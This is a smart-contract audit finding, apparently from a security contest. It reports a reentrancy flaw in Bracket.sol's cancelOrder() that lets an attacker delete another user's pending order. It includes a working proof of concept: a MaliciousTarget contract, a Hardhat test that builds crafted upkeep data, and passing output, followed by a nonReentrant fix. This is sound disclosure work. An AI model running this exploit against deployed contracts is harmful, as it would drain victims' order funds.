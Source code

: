 Docile Grey Albatross

High

# Attacker can delete other user's orders due to lack of reentrancy protection in cancelOrder()

## Description
**_Root Causes:_**
1. `Bracket.sol::performUpkeep()` can be called by anyone with a malicious `performData`. 
2. `Bracket.sol::cancelOrder()` [has a missing](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L309) `nonReentrant` modifier.

**_Attack Path:_** (Please refer PoC for detailed execution flow)
1. Attacker has a order in the `pendingOrderIds` array at index `i`. His order's recipient is a contract with address say, `target`.
2. Victim (naive user) has a order in the `pendingOrderIds` array at index `i + 1`.
3. Attacker's order is in range so he calls `performUpkeep()` with malicious `performData`.
4. `performUpkeep()` internally calls `execute()` which internally calls `target.call(txData)` where both `target` and `txData` are attacker controlled.
5. From inside the `target` contract, he transfers the minimum tokenOut to satisfy balance checks (he'll get these back later). He also makes a call to `cancelOrder()` with his current orderId.
6. `cancelOrder` has no reentrancy protection. It happily cancels the order and refunds the invested tokenIn to the order recipient which is the `target` address. 
7. This cancellation causes deletion of attacker's order from pendingOrderIds array and victim's order now shifts left & occupies index `i`.
8. Once control returns from the external `target.call()`, the performUpkeep() function continues ahead and deletes the order at index `i`, this time actually deleting the victim's order. 

**_Important Note:_** An identical issue dynamic exists inside `OracleLess.sol::fillOrder()` and `OracleLess.sol::cancelOrder()`. Follow a similar attack path to exploit there too.

## Impact
High. Loss of entire order's funds for the victim at no substantial cost to the attacker.

## Proof Of Concept
1. First, add a file named `MaliciousTarget.sol` under the `contracts/` directory:
<details>
<summary>
View MaliciousTarget.sol
</summary>

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "./interfaces/openzeppelin/IERC20.sol";
import "./interfaces/openzeppelin/SafeERC20.sol";

contract MaliciousTarget {
    using SafeERC20 for IERC20;

    address public immutable bracketContract;
    IERC20 public immutable weth;
    IERC20 public immutable usdc;
    
    constructor(address _bracket, address _weth, address _usdc) {
        bracketContract = _bracket;
        weth = IERC20(_weth);
        usdc = IERC20(_usdc);
        usdc.safeApprove(_bracket, type(uint256).max);
    }
    
        
    // Simple function that takes just the order ID we want to cancel
    function attack(uint96 orderId) external returns (bool) {
        // send USDC to pass balance checks
        uint256 usdcToSend = 1; // 1 wei of USDC to satisfy balance checks
        usdc.safeTransfer(msg.sender, usdcToSend);
        
        // Now do the reentrancy attack
        (bool cancelSuccess,) = bracketContract.call(
            abi.encodeWithSignature("cancelOrder(uint96)", orderId)
        );
        require(cancelSuccess);

        return cancelSuccess;
    }

    receive() external payable {}
}
```

</details>

<br>
2. Second, add the following test case inside `test/triggerV2/failure_STOP_LOSS_LIMIT.ts` and run to see it pass:
<details>
<summary>
View Test Case
</summary>

```diff
diff --git a/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts b/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts
index 97c74cc..3701a74 100644
--- a/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts
+++ b/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts
@@ -7,6 +7,168 @@ import { s, SwapParams } from "./scope"
 import { DeployContract } from "../../util/deploy"
 import { ethers } from "hardhat"
 
+describe("Remove Other's Orders Using Reentrancy Attack via cancelOrder", () => {
+    let attackContract: string
+    let attackerOrder: bigint
+    let bobOrder: bigint
+    let attackWithWETH: bigint
+    
+    before(async () => {
+        // Fund both the victim and attacker
+        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount)
+        await stealMoney(s.wethWhale, await s.Steve.getAddress(), await s.WETH.getAddress(), s.wethAmount)
+        
+        // Deploy our malicious contract
+        const AttackFactory = await ethers.getContractFactory("MaliciousTarget")
+        const attack = await AttackFactory.connect(s.Steve).deploy(
+            await s.Bracket.getAddress(),
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress()
+        )
+        attackContract = await attack.getAddress()
+        
+        // Pre-fund attack contract with a large amount of USDC to ensure we pass balance checks
+        // Using 2000 USDC which should be more than enough
+        await stealMoney(s.usdcWhale, attackContract, await s.USDC.getAddress(), BigInt(2000000000))
+        
+        // Reset oracle price for clean test state
+        await s.wethOracle.setPrice(s.initialEthPrice)
+    })
+
+    it("Sets up victim and attacker orders", async () => {
+        attackWithWETH = s.wethAmount / 500n
+        // Create attacker's order - at index i
+        console.log("Attacker creates order with WETH tokenIn =", ethers.formatEther(attackWithWETH));
+        await s.WETH.connect(s.Steve).approve(await s.Bracket.getAddress(), s.wethAmount)
+        await s.Bracket.connect(s.Steve).createOrder(
+            "0x",
+            s.initialEthPrice + BigInt(ethers.parseUnits("100", 8)),
+            s.initialEthPrice - BigInt(ethers.parseUnits("100", 8)),
+            s.wethAmount / 500n,
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            attackContract,  // Our malicious contract as recipient
+            0, 
+            10000, // takeProfitSlippage as 100%
+            10000, // stopSlippage as 100%
+            false,
+            "0x"
+        )
+        
+        // Get attacker's order ID
+        let events = await s.Bracket.queryFilter(s.Bracket.filters.OrderCreated, -1)
+        attackerOrder = events[0].args[0]
+        console.log("attackerOrder id", attackerOrder);
+
+        // Create naive user Bob's order - at index i+1
+        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), s.wethAmount)
+        await s.Bracket.connect(s.Bob).createOrder(
+            "0x",
+            s.initialEthPrice + BigInt(ethers.parseUnits("100", 8)),
+            s.initialEthPrice - BigInt(ethers.parseUnits("100", 8)),
+            s.wethAmount / 2n,
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            await s.Bob.getAddress(),
+            5,
+            500,
+            500,
+            false,
+            "0x"
+        )
+    
+        // Get Bob's order ID
+        events = await s.Bracket.queryFilter(s.Bracket.filters.OrderCreated, -1)
+        bobOrder = events[0].args[0]
+        console.log("bobOrder id", bobOrder);
+    
+        // Verify pending orders
+        const pendingOrders = await s.Bracket.getPendingOrders()
+        expect(pendingOrders.length).to.equal(2, "Should have two pending orders")
+        expect(pendingOrders[0]).to.equal(attackerOrder, "Attacker's order")
+        expect(pendingOrders[1]).to.equal(bobOrder, "Victim's order")
+    })
+    
+    it("Executes the attack", async () => {
+        console.log("\nStarting attack execution...");
+        
+        // Trigger price condition
+        await s.wethOracle.setPrice(s.initialEthPrice - BigInt(ethers.parseUnits("150", 8)));
+        
+        const check = await s.Master.checkUpkeep("0x");
+        expect(check.upkeepNeeded).to.be.true;
+        
+        // Let's encode our call data properly:
+        // 1. Get the function selector for attack(uint96)
+        const functionSelector = ethers.id("attack(uint96)").slice(0, 10); // includes '0x'
+    
+        // 2. Encode the parameter (our order ID)
+        const encodedOrderId = ethers.AbiCoder.defaultAbiCoder().encode(
+            ["uint96"], 
+            [attackerOrder]
+        ).slice(2); // remove '0x' prefix
+    
+        // 3. Combine them
+        const attackData = functionSelector + encodedOrderId;
+    
+        // Generate the transaction data
+        const encodedTxData = await generateAttackTx(
+            attackContract,
+            attackData,
+            await decodeUpkeepData(check.performData, s.Steve),
+            0 // attacker's pending order index
+        );
+
+        let initWETH = await s.WETH.balanceOf(attackContract);
+        let initUSDC = await s.USDC.balanceOf(attackContract);
+        console.log("\nInitial balances:");
+        console.log("Attack contract WETH:", ethers.formatEther(initWETH));
+        console.log("Attack contract USDC:", ethers.formatUnits(initUSDC, 6));
+        
+        // Execute the attack
+        await s.Master.performUpkeep(encodedTxData);
+        
+        let finalWETH = await s.WETH.balanceOf(attackContract);
+        let finalUSDC = await s.USDC.balanceOf(attackContract);
+        console.log("\nFinal balances:");
+        console.log("Attack contract WETH:", ethers.formatEther(finalWETH));
+        console.log("Attack contract USDC:", ethers.formatUnits(finalUSDC, 6));
+
+        // no cost paid for the attack (ignoring gas)
+        expect(finalWETH).to.equal(initWETH + attackWithWETH);
+        expect(finalUSDC).to.equal(initUSDC);
+    
+        const pendingOrders = await s.Bracket.getPendingOrders();
+        expect(pendingOrders.length).to.equal(0, "Attacker's as well as Victim's orders should be gone"); // @audit-issue : Victim's order lost!
+    });
+
+    const MasterUpkeepTuple = "tuple(uint8 orderType, address target, address tokenIn, address tokenOut, uint96 orderId, uint16 pendingOrderIdx, uint88 bips, uint256 amountIn, uint256 exchangeRate, bytes txData)"
+    async function generateAttackTx(
+        attackContract: string,
+        attackData: string,
+        data: MasterUpkeepData,
+        customPendingOrderIdx: number
+    ) {
+        // Encode the MasterUpkeepData struct directly with our attack data
+        const encodedMasterUpkeepData = ethers.AbiCoder.defaultAbiCoder().encode(
+            [MasterUpkeepTuple],
+            [{
+                orderType: data.orderType,
+                target: attackContract,
+                tokenIn: await data.tokenIn.getAddress(),
+                tokenOut: await data.tokenOut.getAddress(),
+                orderId: data.orderId,
+                pendingOrderIdx: customPendingOrderIdx,
+                bips: data.bips,
+                amountIn: data.amountIn,
+                exchangeRate: data.exchangeRate,
+                txData: attackData  // Use our attack data directly
+            }]
+        );
+    
+        return encodedMasterUpkeepData;
+    }
+})
 
 ///All tests are performed as if on Arbitrum
 ///Testing is on the Arb WETH/USDC.e pool @ 500

```

</details>

<br>

Output:
```text
  Remove Other's Orders Using Reentrancy Attack via cancelOrder
Attacker creates order with WETH tokenIn = 0.0033
attackerOrder id 76139222818434470486421978612n
bobOrder id 29485185317621497626765863989n
    ✔ Sets up victim and attacker orders (39ms)

Starting attack execution...

Initial balances:
Attack contract WETH: 0.0
Attack contract USDC: 2000.0

Final balances:
Attack contract WETH: 0.0033
Attack contract USDC: 2000.0
    ✔ Executes the attack (83ms)
```

## Mitigation
Add the `nonReentrant` modifier to both `Bracket.sol::cancelOrder()` and `OracleLess.sol::cancelOrder()`:
```diff
  File: contracts/automatedTrigger/Bracket.sol

   307:              ///@notice only the order recipient can cancel their order
   308:              ///@notice only pending orders can be cancelled
-  309:              function cancelOrder(uint96 orderId) external {
+  309:              function cancelOrder(uint96 orderId) external nonReentrant {
   310:                  Order memory order = orders[orderId];
   311:                  require(msg.sender == order.recipient, "Only Order Owner");
   312:                  require(_cancelOrder(order), "Order not active");
   313:              }
```